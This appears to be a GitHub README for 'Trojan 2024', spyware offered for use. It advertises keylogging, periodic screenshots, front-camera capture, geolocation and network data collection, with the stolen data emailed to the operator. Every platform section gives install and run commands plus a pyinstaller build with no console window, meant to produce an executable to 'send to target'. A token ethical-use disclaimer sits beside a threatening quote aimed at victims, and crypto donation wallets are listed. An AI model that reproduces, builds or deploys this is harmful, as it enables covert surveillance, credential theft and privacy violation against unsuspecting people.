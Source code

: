 Trojan 2024: A Multi-Platform Information Gathering Script .

Features :
=======
Screenshots
Keystrokes
Hardware and network information
Geolocation data
Front camera captures
All data is securely delivered via email for your convenience.

Key Features
=======
Screenshot Capture: Automatically captures desktop activity every 60 seconds.
Keylogging: Records typed text at configurable intervals.
Hardware Information: Retrieves details like CPU, GPU, and RAM specs.
Network Data: Captures IP addresses, MAC addresses, and more.
Geolocation Tracking: Provides approximate location details.
Camera Access: Takes images using the front camera (if available).


How to install .
=====
Installation and Setup
Windows
Open PowerShell or Command Prompt.
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
pip install -r requirements.txt
python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py



macOS
Open the Terminal.
Clone this repository
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
python3 -m pip install -r requirements.txt
python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Termux (Android)
Install Termux from F-Droid or the Google Play Store.
Update packages
pkg update && pkg upgrade
pkg install git python
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojanpip install -r requirements.txt
python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Linux
Open the Terminal.
Clone this repository
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
python3 -m pip install -r requirements.txt
python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Usage Instructions
Email Configuration
During setup, you’ll need to provide:

The sender email.
The app password (generated through your email provider).
The recipient email address for receiving data.
Follow the platform-specific instructions to execute the script and ensure that data is sent correctly to your email.

Support
BTC Wallet: bc1q3kqdczj6q780y642yq9dvvfuk43g5a5uxn83f2
Ethereum Wallet: 0xE8e903eE127113c30aFd52acbDbdB567968534Ea
Feel free to support or donate if this tool was helpful to you! 😊

Disclaimer
Warning: This tool is intended for ethical and legal purposes only, such as cybersecurity research and penetration testing (with proper authorization). Unauthorized or malicious use of this script is illegal.

"Your defenses are paper walls against my storm. Every keystroke whispers your secrets; every shadow hides my trace. By the time you notice, I'll already be gone... or maybe I’ll just be watching."
